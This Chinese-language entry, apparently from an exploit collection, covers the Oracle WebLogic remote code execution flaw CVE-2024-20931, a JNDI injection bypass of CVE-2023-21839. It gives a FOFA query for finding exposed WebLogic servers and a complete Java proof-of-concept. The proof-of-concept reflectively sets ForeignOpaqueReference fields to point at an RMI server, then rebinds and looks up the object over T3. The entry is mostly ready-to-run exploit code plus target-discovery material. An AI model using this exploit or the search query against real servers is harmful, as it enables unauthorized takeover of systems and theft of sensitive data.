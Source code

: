 ## Weblogic远程代码执行(CVE-2024-20931)

Oracle WebLogic Server是一个用于构建、部署和管理企业级Java应用程序。AQjmsInitialContextFactory 是一个允许应用程序使用JNDI查找方式访问Oracle AQ提供消息服务的工厂类。ForeignOpaqueReference是一个对象，lookup时会调用getReferent函数，进行远程对象查询。 该漏洞是 CVE-2023-21839 漏洞绕过，在AQjmsInitialContextFactory初始化时会通过 JNDI获取远程的 DataSource，当通过反射修改 ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性后，再次远程查询ForeignOpaqueReference对象会导致 JNDI 注入，从而直接接管 Oracle WebLogic Server 来执行未经授权的操作或访问系统敏感信息。

## fofa
```
(body="Welcome to WebLogic Server") || (title=="Error 404--Not Found") || (((body="
BEA WebLogic Server" || server="Weblogic" || body="content=\"WebLogic Server" || body="
Welcome to Weblogic Application" || body="
BEA WebLogic Server") && header!="couchdb" && header!="boa" && header!="RouterOS" && header!="X-Generator: Drupal") || (banner="Weblogic" && banner!="couchdb" && banner!="drupal" && banner!=" Apache,Tomcat,Jboss" && banner!="ReeCam IP Camera" && banner!="
Blog Comments
")) || (port="7001" && protocol=="weblogic")
```

## poc
```
package com.supeream;

import weblogic.deployment.jms.ForeignOpaqueReference;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2024_209321 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://127.0.0.1:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put("java.naming.factory.initial", "oracle.jms.AQjmsInitialContextFactory");
        env2.put("datasource", "rmi://127.0.0.1:1099/ygevmj");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "rmi://127.0.0.1:1099/ygevmj";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("glassy", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("glassy");
        } catch (Exception e) {
        }
    }
}
```

## 漏洞来源
- https://github.com/GlassyAmadeus/CVE-2024-20931
- https://glassyamadeus.github.io/2024/01/31/CVE_2024_20931/
- https://forum.butian.net/share/2780
